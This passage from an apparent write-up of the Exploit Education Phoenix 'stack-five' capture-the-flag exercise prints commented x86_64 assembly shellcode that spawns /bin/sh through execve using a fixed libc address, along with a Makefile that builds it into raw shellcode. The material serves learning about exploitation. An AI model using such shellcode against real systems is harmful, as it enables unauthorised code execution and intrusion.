 ```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five-crafted-shellcode$ cat shellcode.S
#include <sys/syscall.h>
/*
	This is the shellcode's program code section
*/
.global main
.type main, @function
main:   /* This is where the shellcode starts execution */
	
	/* Assign the system call number = 59 for SYS_EXECVE system call */
	movq $59, %rax /* Trying to load the 59 into the %rax register */
	/*
	   The RDI register contains the first argument passed into called
	   functions in the x86_64 architecture. In this case, the first
	   argument passed into the execve function is "/bin/sh".
	  Fortunately, the "/bin/sh" string can be found in the
	  dynamically linked c library "libc.so".
	  Taking advantage of the fact that ASLR is not enabled, we know that
	  the linked "libc.so" library will be lcoated in the same position
	  of the compiled executable each time its run. Therefore, we can just
	  load in the fixed memory address of the "/bin/sh" string for usage
	*/
	xorq %rdi, %rdi		    /* Clear the rdi register for further processing */
	movq $0x7ffff7dfa064,  %rdi /* Initialize the rdi register with the fixed address of the "/bin/sh" string */
	/*
	   The RSI register contains the second argument passed into a function.
	   In this case, it is SYS_EXECVE's argv = 0 to indicate that there
	   are no arguments passed into the /bin/sh shell
	*/
	movq $0, %rsi
	/*
	   The RDX register contains the third argument passed into a function.
	   In this case, it is the SYS_EXECVE's envp = 0 to indicate that there
	   are no environmental variables passed into the launched "/bin/sh" shell
	*/
	movq $0, %rdx
	/*
	   We call execve("/bin/sh", argv=[], envp=[])
	*/
	syscall
```

Excellent. The shellcode is crafted. We now need to ensure it is properly compiled for deployment. To ensure a longer series of steps is done automatically and systematically with a short command-line invocation, we craft a Makefile:
{: style="text-align: justify;"}

```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five-crafted-shellcode$ cat Makefile
all:
	gcc -m64 -c -o shellcode.o shellcode.S
	objcopy -S -O binary -j .text shellcode.o shellcode.bin
	rm -rf shellcode.o
clean:
	rm -rf shellcode.bin
```
